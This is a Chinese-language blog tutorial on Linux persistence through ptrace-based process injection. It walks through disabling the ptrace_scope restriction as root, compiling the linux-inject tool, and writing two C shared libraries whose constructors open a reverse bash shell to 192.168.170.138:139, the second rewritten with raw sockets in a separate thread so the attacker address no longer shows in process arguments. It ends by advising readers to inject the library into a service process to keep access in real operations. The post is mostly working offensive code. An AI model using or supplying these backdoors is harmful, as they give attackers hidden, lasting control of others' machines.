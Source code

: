 ```yaml
---
date: "2020-01-01T00:00:00Z"
description: 通过进程注入技术，能够使得动态链接库被加载到一个正在运行的进程，因此较为隐蔽。
title: Linux权限维持之进程注入
url: /archivers/2020-01-01/2
---
```


## 说明

通过进程注入技术，能够使得动态链接库被加载到一个正在运行的进程，因此较为隐蔽。进程注入通过调用`ptrace()`实现了与Windows平台下相同作用的API 函数`CreateRemoteThread()`。在许多Linux发行版中，内核的默认配置文件`/proc/sys/kernel/yama/ptrace_scope`限制了一个进程除了`fork()`派生外，无法通过`ptrace()`来操作另外一个进程。

要注入进程前，需要关闭这个限制（Root权限）：

```echo 0 | sudo tee /proc/sys/kernel/yama/ptrace_scope```

![2020-01-03-13-10-44](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/28f181718173d69326f3bfc58a3c0cbb.png)

在Github上已经有了关于进程注入的实现代码：`https://github.com/gaffe23/linux-inject`

下载后进入项目目录，执行：make x86_64 即可编译64位的linux-inject。



![2020-01-03-13-10-54](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/7b89dc61d7952191a608716bdcf951b8.png)


确认编译是否正常：

![2020-01-03-13-11-04](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/8251535f3c0f9b55243940b6de2cf34b.png)

获取sample-target的PID后，调用inject程序来注入sample-library.so，注入成功会输出“I just got loaded”。
接下来，需要更改sample-target.c文件，编译成需要的权限维持动态链接库。


```c
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
#include <stdlib.h>


void shell()
{
	printf("I just got loaded\n");
    system("bash -c \"bash -i >& /dev/tcp/192.168.170.138/139 0>&1\"");
   
}


__attribute__((constructor))
void loadMsg()
{
   shell();
}

```

通过如下命令编译so文件：

```
clang -std=gnu99 -ggdb -D_GNU_SOURCE -shared -o u9.so -lpthread -fPIC U3.c

```

![2020-01-03-13-11-16](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/ae110053d720c18b8c6bfb24a5483d4b.png)


编译成so文件成功后的测试效果：

![2020-01-03-13-11-27](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/d23ecdf9310a3dce4fd8839d9d10e270.png)

在Kali Linux这边获得了bash shell：

![2020-01-03-13-11-47](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/c2d15b84db450b39e55766b2097fd0c2.png)

此时发现测试程序的主线程被bash阻塞了，于是可以采用多线程技术，将后门代码与正常逻辑分离执行。

![2020-01-03-13-11-58](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/9e990f101b1f5bee215f4175926ac896.png)

但利用这种方式在执行的过程中，查看进程参数还是会被查看到IP地址和端口：

![2020-01-03-13-12-09](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/b920dfc70a90769b21214fd5d217dbbc.png)

查看到IP与端口：

![2020-01-03-13-12-19](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/5f6901fde3fc0693424326f3deeede92.png)

再继续改进代码，采用socket套接字的方式来反弹shell：

```c
#include <stdio.h>
#include <dlfcn.h>
#include <stdlib.h>
#include <pthread.h>
#include <stdio.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netdb.h>


static void * hello()
{

    struct sockaddr_in server;
    int sock;
    char shell[]="/bin/bash";
    if((sock = socket(AF_INET, SOCK_STREAM, 0)) == -1) {
        return NULL;
    }

    server.sin_family = AF_INET;
    server.sin_port = htons(139);
    server.sin_addr.s_addr = inet_addr("192.168.170.138");
    if(connect(sock, (struct sockaddr *)&server, sizeof(struct sockaddr)) == -1) {
        return NULL;
    }
    dup2(sock, 0);
    dup2(sock, 1);
    dup2(sock, 2);
    execl(shell,"/bin/bash",(char *)0);
    close(sock);
	printf("I just got loaded\n");
    return NULL;
}

__attribute__((constructor))
void loadMsg()
{
    pthread_t thread_id;
    pthread_create(&thread_id,NULL,hello,NULL);
}


```


执行效果：

![2020-01-03-13-12-35](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/fa4136ff8822c555b4008bce084f88a4.png)


Kali Linux获得bash shell：

![2020-01-03-13-12-46](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/003ee8252435ab25e2b012763fbf8d82.png)

在实战应用中，需要关闭ptrace的限制，然后注入.so到某个服务进程中，这样达到权限维持的目的。


